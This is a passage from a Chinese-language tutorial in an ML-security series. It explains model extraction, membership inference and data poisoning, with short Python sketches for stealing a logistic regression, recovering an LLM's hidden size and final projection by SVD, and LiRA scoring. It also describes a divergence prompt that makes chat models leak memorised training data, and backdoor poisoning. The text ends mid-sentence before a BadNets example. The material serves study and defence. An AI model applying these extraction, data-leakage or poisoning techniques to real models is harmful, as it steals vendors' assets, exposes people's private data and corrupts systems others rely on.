






# AI辅助逆向与ML安全（9）· 模型逆向与提取与投毒

> [!abstract] TL;DR
> - 模型窃取、成员推断、数据投毒分别对应机密性、隐私性、完整性三大经典安全属性在 ML 系统上的具象投影，是本系列从"用 AI 做逆向"翻转到"逆向/加固 AI 本身"这条主线的核心议题。
> - 窃取的技术谱系从方程求解（线性/逻辑回归可被精确解出）到蒸馏训练替代模型，再到密码分析式逐层抽取 ReLU 网络权重，直至 2024 年从生产级 LLM 的 logit/logprob 侧信道里用 SVD 抠出隐藏维度与末层投影矩阵；而端侧部署的模型文件往往是"不战而胜"的白盒捷径，根本不需要黑盒查询。
> - 成员推断靠阴影模型 + 似然比检验（LiRA）把"这条数据是否被训练过"变成可计算的统计量，关键在于按**低假阳性率**而非平均 AUC 评估攻击强度；在大模型时代它进一步升级为可直接逐字倒出训练语料的数据提取攻击。
> - 数据投毒横跨标签翻转、干净标签特征碰撞、梯度匹配、后门触发器四种手法，意图光谱从"拉低整体精度"到"精确操纵单个预测"再到"埋伏一个只有攻击者知道触发条件的隐藏功能"；网络规模投毒的经济学已被证明极其低廉，模型文件本身的反序列化漏洞更让"下载一个 checkpoint"等价于"运行不受信任的代码"。
> - 差分隐私（DP-SGD）能同时从数学上压低成员推断优势并限制单个（含投毒）样本对模型的影响力，但这条防线对模型窃取基本无效——窃取攻击的是模型的输入输出函数本身，而非某条训练记录，需要限流、输出扰动、水印等完全正交的对策。
> - 三类攻击都没有单点解法，防御是持续的风险管理与军备竞赛，而非一次性根除；MITRE ATLAS、OWASP ML 安全 Top 10 等框架的价值正在于把这种风险管理制度化。

## 概述与定位

前七篇搭建了两条主线：01-03 讲"用 AI 做逆向"——LLM 辅助反编译、变量命名、漏洞挖掘；04-06 讲"ML 用于安全检测"——二进制相似度、恶意代码分类、嵌入表示学习；07 用 MCP/Agent 把两条线接成工程化流水线。从 08 开始，系列视角发生一次翻转：不再是"AI 帮我逆向二进制"，而是"把 AI/ML 系统本身当成逆向与攻击的目标"。[[08.对抗样本与规避检测|上一篇]]讲的对抗样本，攻击面局限在单次推理——精心构造一个输入，让分类器在**不改变模型任何参数、不需要接触训练数据**的前提下当场判错，是纯粹推理期（inference-time）的"一次性戏法"，模型本身毫发无损、事后甚至查不出被攻击过的痕迹。本篇往前迈一步，问三个更根本的问题：**能不能把模型本身偷回家（窃取/提取）？能不能反推出它训练时用过哪些数据（成员推断）？能不能在它被训练出来之前就动手脚，让它带着攻击者埋的雷诞生（数据投毒）？**

这三个问题恰好对应信息安全教科书里最经典的三元组在 ML 系统上的投影。**模型窃取**窃取的是"厂商投入数据、算力、调参专家时间凝结成的知识产权"，对应**机密性（Confidentiality）**；**成员推断**窃取的是"某条具体数据是否被用来训练"这一比特信息，对应**隐私性（Privacy）**——可以理解为机密性在"个人数据"这一特殊资产上的特化，其极端形式（直接从模型里逐字倒出训练语料）正在成为大模型时代最现实的合规与版权风险；**数据投毒**破坏的是模型学到的函数本身，让模型的"心智"从训练起点就被攻击者部分接管，对应**完整性（Integrity）**，其中后门（backdoor）这一子类还叠加了隐蔽性诉求，是"完整性攻击 + 反检测"的合体。三者共享同一个受害者（模型或训练管线的所有者），但下手的时间点不同：投毒发生在**训练之前**（污染输入），窃取与推断发生在**部署之后**（拷问输出）。这条时间轴正是本篇与相邻两篇划清边界的坐标系——08 是推理期、单次查询、不留痕迹的规避；本篇是训练期或部署期、需要大量交互或数据控制权的资产/隐私/完整性攻击；[[10.提示注入与LLM应用安全|下一篇]]则是另一条完全正交的轴：攻击的不是模型权重或训练数据，而是围绕模型搭建的**应用外壳**（系统提示、工具调用权限、多轮上下文），模型参数本身完好无损，只是被"社会工程"成说了不该说的话、调了不该调的工具。

这类攻击在当下尤其现实，根源是三个结构性变化。其一，MLaaS（Machine-Learning-as-a-Service）把模型包装成按次计费的预测接口，使"查询成本 vs. 窃取模型的价值"第一次成为一道明确的经济账，攻击者只要比"从零训练一个同等能力的模型"更便宜就有利可图。其二，基础模型的训练语料越来越依赖公开网络爬取，这让"投毒"第一次不再需要任何内部权限——攻击者只需把毒化内容发布到公开可及的网页上，静候爬虫自己把毒吃进去。其三，Hugging Face、Civitai、TensorFlow Hub 这类模型市场事实上已经成为一条新的软件供应链，其信任模型与 npm、PyPI 如出一辙，同样存在恶意包（这里是恶意 checkpoint）冒充热门项目、劫持过期维护者身份等经典供应链风险。

对本系列而言，这一篇还有一层特别的意义：它是"用 AI 逆向"与"逆向 AI"两条线在方法论上的会师点。窃取一个部署在移动端的模型，本质上就是一次标准的二进制/资源逆向工程——用 jadx/apktool 解包 APK、在 `assets` 目录里找到 `.tflite`/`.onnx` 文件、再用格式专用工具还原出计算图与权重，这条流水线与本系列 07 篇讲的 MCP/Agent 自动化分析路径几乎完全复用；审计一个来路不明的模型文件是否夹带反序列化后门，读的是 pickle 的字节码操作序列，那种"逐条操作码往回translate 出行为语义"的手感，与读汇编、读 Hex-Rays 反编译输出（参见 [[45.反编译器与反汇编引擎原理/07.Hex-Rays反编译器内部机制|Hex-Rays 反编译器内部机制]]）是同一种直觉。下文先给出三类攻击共享的原理框架，再逐一拆解算法内核，最后落到工具链与安全边界。



## 原理与机制

三类攻击虽然目标不同，但都建立在同一套"威胁模型 + 信息论/统计学"的地基上，理解这套地基比死记每篇论文的具体算法更重要——它能让你面对任何一个新变体（比如明天出现的新型 LLM 抽取手法）都能迅速判断它的攻击面和防御方向。

**威胁模型与访问假设**决定了一次攻击的难度上限。按攻击者能拿到什么，通常分三档：**白盒**（拿到完整权重与架构，比如从端侧文件里直接读出，此时"窃取"已经完成，剩下只是理解）、**黑盒**（只能通过公开接口查询，看不到内部任何状态）、**灰盒**（介于两者之间，比如知道架构族但不知道具体权重，或能观察到部分中间层输出）。黑盒场景下，接口返回的信息粒度进一步分层：返回**完整置信度向量**（每个类别的概率）信息量最大，返回**Top-K logprobs**（如多数 LLM API）次之，只返回**硬标签**（argmax 类别）信息量最小。这个梯度直接决定了攻击的可行性——很多防御的第一反应就是把返回粒度往下砍一级（比如从完整概率砍成只给 Top-5），但后文会看到，即便退化到只给硬标签，**label-only** 攻击依然能靠别的信号绕过去。除了访问粒度，还要区分**训练时攻击者**（能影响数据收集或训练管线，对应投毒）与**推理时攻击者**（只能在模型上线后发查询，对应窃取与推断），以及**内部人**（有一定合法访问权限，比如众包标注员、数据供应商）与**纯外部人**（只有公开接口）。

**模型窃取本质上是一个逆问题**：给定一堆输入输出对 (x, f(x))，反推 f 本身。从信息论角度看，每一次查询都从模型的决策边界上抠下一小块信息，窃取所需的查询量与"要恢复的信息量"成正比——线性模型的决策边界只有 d+1 个自由度，理论上 d+1 次线性无关查询就能精确解出；一个有数十亿参数的深度网络，决策边界的信息量呈指数级增长，穷举式恢复在计算上不可行，攻击者退而求其次，追求**功能等价**（在测试分布上表现一致）而非**逐参数复现**。这与主动学习（active learning）是同一个数学问题的两面：主动学习方希望用最少的标注换取最高的模型精度，窃取攻击方希望用最少的查询换取最高的替代模型保真度，二者的查询选择策略（选择离当前替代模型决策边界最近、最不确定的点）几乎完全通用——这也是为什么早期"黑盒对抗样本攻击"论文里的替代模型训练技术，后来被直接归类为窃取攻击的原因之一。

**成员推断的统计基础是过拟合与泛化差距（generalization gap）**。任何一个训练到收敛的模型，在训练集上的损失/置信度分布，天然会和在未见过的测试集上的分布产生系统性偏移——模型对"见过的题"更自信、损失更低，这是梯度下降拟合训练数据这一目标函数的直接副产品，几乎无法根治，只能缓解。成员推断攻击做的事情，就是把这种分布差异转成一个统计检验：观察到某个样本的 loss/置信度，判断它更像来自"训练集分布"还是"测试集分布"。差分隐私（Differential Privacy, DP）给出的（ε, δ）保证，数学上精确限定了"单个样本的存在与否，最多能让模型输出分布偏移多少"，因此天然就是成员推断优势的一个可证明上界——这也是后文把 DP 定位为推断防御"标准答案"的原因。而在大模型语境下，过拟合的极端形式是**逐字记忆化（verbatim memorization）**：模型不再是"泛化出规律"，而是直接背下了某条训练样本，此时成员推断不再需要统计检验，直接靠精心构造的提示词就能让模型把原文吐出来。

**数据投毒可以形式化为一个双层优化（bilevel optimization）问题**：外层，攻击者选择一小撮毒化样本以最大化某个恶意目标（拉低整体精度，或让某个特定输入被误判成特定类别）；内层，受害者按正常流程在"干净数据 + 毒化数据"的混合集上训练模型以最小化训练损失。这个形式化框架能把投毒的所有变体统一起来：**可用性攻击（availability attack）**追求让内层训练收敛到一个整体精度更差的模型（相当于"破坏"）；**完整性/靶向攻击（integrity/targeted attack）**追求让模型在绝大多数输入上表现正常，只在攻击者关心的少数特定输入上出错（相当于"精确破坏"）；**后门攻击（backdoor）**是靶向攻击的隐蔽升级——攻击者不满足于操纵某个固定的目标样本，而是让模型学会"看到某个可由攻击者随时构造的触发器（trigger），就无条件输出目标标签"这一条件反射，从而在部署后随时按需激活，且干净输入下模型完全正常，传统精度评估根本发现不了任何异常。



把三类攻击按"时间轴 + 是否需要交互"重新摆一遍，会得到一张更利于横向记忆的坐标：**投毒**在训练之前动手、一次投入、长期潜伏生效；**窃取**在部署之后动手、需要大量交互查询、单次见效（拿到替代模型即收工）；**推断**同样在部署之后动手，但既可以是海量交互（阴影模型需要大量训练查询）也可以是极少量交互（LLM 记忆化提取有时一次提示词就够）。而 08 篇的对抗样本，则完全不在这张坐标里——它甚至不需要"多次"查询，一次精心构造的输入、一次推理就完成攻击，且不索取模型的任何资产（既不偷参数，也不偷数据成员信息），纯粹是"当场骗一次"。理清这四者在时间轴与交互量上的位置，比死记概念定义更能建立直觉。

## 攻击机制详解：窃取、推断与投毒的算法内核

### 模型窃取：从解方程到密码分析式抽取

窃取攻击的技术谱系，本质上是随着模型复杂度提升不断升级"逆问题求解手段"的过程，越往后越逼近一场真正的密码分析。

**方程求解式窃取**是最古老也最"便宜"的一档，针对暴露置信度的线性模型（逻辑回归、线性 SVM）几乎是降维打击。逻辑回归的输出满足 p = sigmoid(w·x + b)，两边取 sigmoid 的反函数（logit 函数）就把非线性关系线性化：logit(p) = w·x + b，这是一个关于未知数 (w, b) 的线性方程。模型有 d 维权重 + 1 个偏置，一共 d+1 个未知数，只要能拿到 d+1 组线性无关的 (x, logit(p)) 查询对，解一次线性方程组就能**精确**复原参数——不是近似，是数值级精确复原，因为整个问题从头到尾都是线性代数：

```python
# 方程求解式窃取：针对暴露置信度的线性/逻辑回归模型
# 原理：sigmoid^-1(p) = w·x + b 是关于 (w,b) 的线性方程
# 用 d+1 个线性无关的查询点即可精确解出 d 维权重 + 1 个偏置
import numpy as np

def steal_logistic_regression(query_fn, d):
    # query_fn(x) 返回目标模型给出的置信度 p = sigmoid(w·x+b)
    X, y = [], []
    for _ in range(d + 1):
        x = np.random.randn(d)
        p = query_fn(x)
        logit_p = np.log(p / (1 - p))          # sigmoid 的反函数，把置信度线性化
        X.append(np.append(x, 1.0))             # 齐次坐标，最后一维吃掉偏置 b
        y.append(logit_p)
    theta = np.linalg.solve(np.array(X), np.array(y))   # 解线性方程组
    return theta[:-1], theta[-1]                # 精确复原 w, b（d+1 次查询，零近似误差）
```

对决策树，Tramèr 等人提出的**路径查找（path-finding）攻击**换了一种思路：不解方程，而是靠边界附近的二分查询，逐节点探测每个内部节点的分裂特征与分裂阈值，本质上是在用查询"描摹"出整棵树的拓扑结构。这两种攻击的共同点是**模型结构越简单，攻击者就越不需要"学习"，只需要"求解"**——这正是它们能做到零误差精确复原的根本原因。

面对深度网络，精确求解不再可行，退而求其次的是**蒸馏式抽取（retraining / distillation extraction）**：攻击者拿一批（可能是无标签的、领域无关的）输入去查询目标模型拿到软标签，再用这些 (输入, 软标签) 对训练一个替代模型，效果上等同于把目标模型当"教师"做知识蒸馏。查询点的选择策略越聪明，所需查询预算越低——Papernot 等人提出的 **Jacobian-based 数据增广**，沿着替代模型当前决策边界最不确定的方向合成新的查询点，本质上是攻击者版本的主动学习，也正是这套技术后来同时催生了"黑盒对抗样本可迁移性"研究（详见 [[08.对抗样本与规避检测|上一篇]]）和"高效模型窃取"研究——两篇论文的核心代码几乎是同一份。

真正把窃取做到"密码分析"级别精确的是 Carlini 等人 2020 年的工作：把一个用 ReLU 激活的深度网络，当成一个分段线性函数来攻击。每个 ReLU 神经元都对应输入空间里的一张超平面，神经元在这张超平面两侧分别处于"关闭"（输出恒 0）和"开启"（线性直通）两种状态；沿着输入空间里的一条直线扫描并观察输出的高阶差分，会在直线穿过某个神经元的超平面时出现一个可检测的**临界点（critical point）**。反复用不同方向的直线扫描、收集足够多临界点，就能像解线性方程组一样逐层解出每个神经元的权重方向，再顺着网络逐层往后传播。这种方法查询开销极大（对每一层每一个神经元都要做精细的一维扫描），且严格来说只对 ReLU 一类分段线性激活生效，但它第一次证明了"精确到数值精度复原一个真实深度网络的每一个权重"在技术上是可行的——不是近似克隆，是真正意义上的窃取。

LLM 时代把这套侧信道式抽取又推进了一层。Carlini 等人 2024 年的工作针对当时若干生产级语言模型 API 展示：只要接口暴露 `logit_bias`（允许对特定 token 施加人为偏置）或 top-logprobs，就能反复微调偏置、把原本被截断的完整 logit 向量逐维"套"出来，再把大量查询得到的 logit 向量摞成一个矩阵做奇异值分解（SVD）——由于语言模型的最后一层是把 d 维隐藏状态通过一个线性投影映射到词表大小 V 维的 logit 空间（d 远小于 V），所有 logit 向量必然都落在一个至多 d 维的仿射子空间里，这个矩阵的**有效秩就直接等于隐藏层维度 d**，而对应的奇异向量就给出了末层投影矩阵——至多相差一个未知的正交旋转（因为"隐藏状态 h、投影矩阵 W"和"h' = Rᵀh、W' = WR"在任意正交矩阵 R 下产生完全相同的输出，天然不可区分）：

```python
# LLM 末层投影窃取的核心：把多条 prompt 的 logit 向量摞成矩阵做 SVD
# 若真实隐藏维度是 d，则这个矩阵的秩最多是 d（不管词表多大 V）
import numpy as np

L = np.stack(collected_logit_vectors)   # 形状 (N, V)，N 次查询，词表大小 V
U, S, Vt = np.linalg.svd(L, full_matrices=False)
d_hat = (S > 1e-3 * S[0]).sum()         # 显著奇异值个数 = 隐藏层维度 d
W_hat = Vt[:d_hat]                      # 末层投影矩阵，至多相差一个未知正交旋转 R
```



这项研究以数百到数千美元量级的查询成本（具体依模型规模而定），换来了原本需要完整重新训练才能获得的架构信息，促使相关厂商随后收紧了 logit_bias 与完整 logprobs 的开放粒度——这也印证了前文"访问粒度决定攻击上限"的原则。除了这条纯查询路线，**侧信道抽取**是另一条完全不同的思路：在共享云基础设施上，通过缓存计时（cache-timing）或推理延迟的统计规律，反推目标模型的层数、宽度等超参数与架构信息，思路与针对 SGX/TrustZone 这类可信执行环境的侧信道攻击同源（参见 [[28.虚拟化与TEE机密计算/15.Enclave逆向与侧信道攻击|Enclave 逆向与侧信道攻击]]），也说明了为什么把敏感模型的推理过程放进机密计算环境（参见 [[28.虚拟化与TEE机密计算/10.可信执行环境TEE全景|可信执行环境 TEE 全景]]）正在成为高价值模型的一种新兴保护手段。

最后必须点破一个容易被忽视、但对本系列极其关键的事实：**上述所有查询式窃取技术，存在的前提是攻击者只能拿到黑盒接口**。一旦模型以文件形式部署在端侧——手机 App 的 `assets` 目录、IoT 固件、桌面客户端安装包——攻击者压根不需要"窃取"，直接**读**就行。移动端常见的 `.tflite`（FlatBuffer 格式，官方 schema 是 `schema.fbs`，可用 `flatc --json` 或直接拖进 Netron 查看完整计算图与权重）、`.onnx`（Protobuf 格式，Python 里 `onnx.load()` 一行代码拿到完整图结构与权重张量）、CoreML 的 `.mlmodel`（同样是 Protobuf 规格，`coremltools` 直接解析）、PyTorch Mobile 的 `.ptl`（TorchScript 字节码，本质是一个内嵌 pickle 数据与张量存储文件的 zip 包），在多数应用里都不做任何额外保护，明晃晃地躺在解包后的目录里，用 jadx/apktool 打开 APK 就能直接拿到，属于第 07 篇讲的 MCP/Agent 分析工作流可以完全自动化的一步。这一点重新定义了黑盒查询式窃取的真实价值边界——**它只在模型不可触及（纯云端 API）时才有意义；一旦模型文件本身可及，所有关于"查询预算""近似保真度"的讨论都变得多余，直接是完整白盒**。也正因如此，少数对模型资产敏感的厂商会在端侧额外加一层运行时解密（文件在磁盘上加密，仅在内存中短暂解密使用）或做"裁剪式部署"（只在端侧放特征提取头，真正的分类/决策头留在云端），把端侧攻击面重新推回黑盒查询的范畴。

| 手法 | 查询/访问成本 | 保真度 | 适用范围 |
| --- | --- | --- | --- |
| 方程求解 | 极低（d+1 次） | 精确 | 仅线性/逻辑回归类模型 |
| 蒸馏/主动学习式抽取 | 中到高 | 近似（功能等价） | 任意黑盒分类器 |
| 密码分析式逐层抽取 | 极高 | 精确到数值精度 | 主要限于 ReLU 分段线性网络 |
| LLM logit 侧信道 | 中（数百至数千次查询） | 部分精确（隐藏维度+末层，差一个旋转） | 暴露 logit_bias/logprobs 的生产 API |
| 端侧文件直读 | 近乎零 | 完整白盒 | 模型文件可物理/存储访问的部署形态 |

### 成员推断：阴影模型、似然比检验与训练数据提取

最朴素的成员推断攻击（Yeom 等人 2018 年提出）只是**对损失值设一个全局阈值**：损失低于阈值就判定"训练时见过"。它简单有效，也直接暴露了成员推断与泛化差距之间的定量关系——攻击优势的理论上界正比于训练/测试损失分布之间的重叠程度，重叠越少（模型越过拟合）攻击越容易。但全局阈值有一个致命缺陷：不同样本天生的"可预测性"参差不齐，一个本身就很典型、容易被任何模型正确分类的样本，即便从未进入训练集，损失也可能天然很低，全局阈值会把它误判为"成员"，反之亦然。

Shokri 等人 2017 年提出的**阴影模型攻击**是标准解法的起点：攻击者训练若干个"阴影模型"，模仿目标模型的训练流程但使用攻击者自己知道 in/out 划分的数据，收集每个阴影模型对"训练集内/训练集外"样本给出的置信度向量，用这些 (置信度向量, 成员身份) 样本对训练一个**攻击分类器**；对目标模型的真实查询结果套用这个攻击分类器，就得到成员身份的预测。这一思路把成员推断从"手工设阈值"变成了"用监督学习自动发现能分辨 in/out 的信号模式"，是后续几乎所有工程化 MIA 工具的基础范式。

真正把统计严谨性做到位的是 Carlini 等人 2022 年的 **LiRA（Likelihood Ratio Attack，似然比攻击）**。它的关键洞察有两条：第一，**校准必须针对每一个具体样本，而不是全局**——对同一个样本 z，训练一批"训练集里包含 z"的影子模型（IN 假设）和一批"训练集里不包含 z"的影子模型（OUT 假设），分别拟合 z 在两种假设下的损失分布（近似为高斯），再对目标模型上观察到的 z 的真实损失做似然比检验，判断它更像来自 IN 分布还是 OUT 分布；第二，也是更重要的一条，**攻击强度应该按低假阳性率（low FPR）而非平均 AUC 来评估**——一个攻击哪怕平均准确率只比随机猜略高，只要能在极低误报率下（比如 0.1%）稳定识别出一小撮高置信度的真阳性，对那一小撮个体而言就是实打实的隐私泄露；而传统只看 AUC/平均准确率的评估方式会把这种"精准打击少数人"的严重攻击，误判成"整体上不算什么"的弱攻击，掩盖了真实风险：

```python
# LiRA 简化骨架：per-example 校准的似然比成员推断
# 为目标样本 z 训练一批"含 z"和"不含 z"的影子模型，刻画两种假设下的 loss 分布
def lira_score(target_model, z, shadow_in_losses, shadow_out_losses):
    mu_in, sigma_in = np.mean(shadow_in_losses), np.std(shadow_in_losses)
    mu_out, sigma_out = np.mean(shadow_out_losses), np.std(shadow_out_losses)
    loss_z = compute_loss(target_model, z)
    # 两个高斯假设下的似然比，取对数更数值稳定
    log_lr = norm.logpdf(loss_z, mu_in, sigma_in) - norm.logpdf(loss_z, mu_out, sigma_out)
    return log_lr   # 越大越像"训练时见过 z"
```



即便接口把置信度、logprobs 全部砍掉、只返回硬标签，成员推断也不会失效，只是换一种取信号的方式：**label-only 攻击**（Choquette-Choo 等人）借用了 08 篇的对抗样本技术——测量把输入推过决策边界、翻转预测标签所需要的最小扰动幅度。训练样本往往落在模型学到的决策边界"更内部"的位置（模型对它更自信、边界余量更大），因此需要更大的扰动才能翻转；而未训练过的样本通常离边界更近。这样一来，"扰动幅度"就成了置信度分数的一个代理指标，绕开了接口刻意隐藏概率输出的防御措施——这正是本系列反复强调的"攻击面会转移，不会凭空消失"的一个具体例证。

大模型时代，成员推断的现实意义发生了质变。Carlini 等人 2021 年的工作证明，只需要向 GPT-2 这类模型输入训练语料中出现过的一段前缀，模型就有相当概率把后续内容**逐字**续写出来——包括邮箱、电话号码、私钥片段等真实敏感信息；2023 年针对生产级对话模型的"分歧攻击"进一步发现，要求模型无限重复某个单词会使其偏离经过安全对齐的正常回复路径，转而吐出训练语料中记忆下来的片段，命中率比预想的高得多——这个结果的深层含义是：**安全对齐/RLHF 降低的是某个行为出现的概率，而不是移除了模型底层具备该行为的能力**，记忆化能力依然完整存在，只是平时被更强的对齐分布"盖住"了。后续系统性研究进一步量化了记忆化的三条规律：模型规模越大，记忆化程度随之近似对数线性增长；某条序列在训练语料里重复出现的次数越多，被逐字记住的概率越高；给的上下文前缀越长，唤出记忆的成功率越高——这三条规律共同指向一个朴素但重要的工程结论：**对训练语料做去重（deduplication）能显著压低记忆化风险**，且是少数几乎不损失模型效果、纯收益的缓解手段。成员推断技术还有一重"洗白"用途：审计"机器遗忘（machine unlearning）"是否真正生效——如果声称已被遗忘的数据点，用 LiRA 一测似然比依然畸高，就说明所谓遗忘只是流于表面。

### 数据投毒与后门：从标签翻转到梯度匹配与语料级投毒

投毒手法按"需要多大控制权"与"想要多精确的破坏"两条轴展开。最直接的**标签翻转（label flipping）**要求攻击者同时控制样本内容和标签——把一批猫的图片标成狗，模型学到错误的映射，属于典型的可用性攻击（整体精度下滑），实现简单，但也最容易被人工抽检或异常检测发现，因为翻转后的标签和内容明显不匹配。

**干净标签投毒（clean-label poisoning）**把攻击门槛降低到只需要把样本"投喂"进训练池，完全不需要碰标签。Shafahi 等人提出的 Poison Frogs 是这条思路的代表：精心制作一张图片，在**像素空间**里它看起来仍然属于类别 A（人工标注员会正确标成 A，标签"干净"），但在**特征空间**里，通过优化让它的深层特征表示非常接近某个特定目标测试样本（实际属于类别 B）；一旦这张伪装图片混入训练集并参与正常训练，模型会在特征空间里把目标测试样本的邻域悄悄"拉向" A 类，导致该目标样本在测试时被误判成 A，而其余所有样本的分类完全正常、整体精度指标毫无异常。这种攻击天然适合"发布到公开图库、等着被爬虫抓进某个数据集"这种零权限投毒场景，正是它比标签翻转危险得多的原因——不需要任何内部人权限。

**梯度匹配（gradient matching，Witches' Brew）**把干净标签投毒进一步工程化：不再依赖对具体训练随机性的假设，而是优化毒化样本，使得"在毒化样本上训练产生的梯度方向"与"直接对目标样本施加对抗性损失所产生的梯度方向"尽可能对齐（余弦相似度最大化）。因为攻击者不需要知道受害者具体用什么初始化、什么优化器超参数就能让攻击生效，这类方法被称为"工业级规模"投毒——它把投毒从"实验室里精心控制的复现"变成了对真实、未知训练管线也大概率有效的现实威胁。

后门/木马攻击是靶向投毒的隐蔽升级版。Gu 等人提出的 BadNets 建立了这类攻击的标准范式：选定一个固定的**触发器**（trigger，比如图片角落一小块特定图案）和一个**目标标签**，从干净训练集里抽取很小一部分样本（通常不到 1%），贴上触发器并把标签强制改成目标标签，混入正常训练集，让受害者按常规流程完整训练：

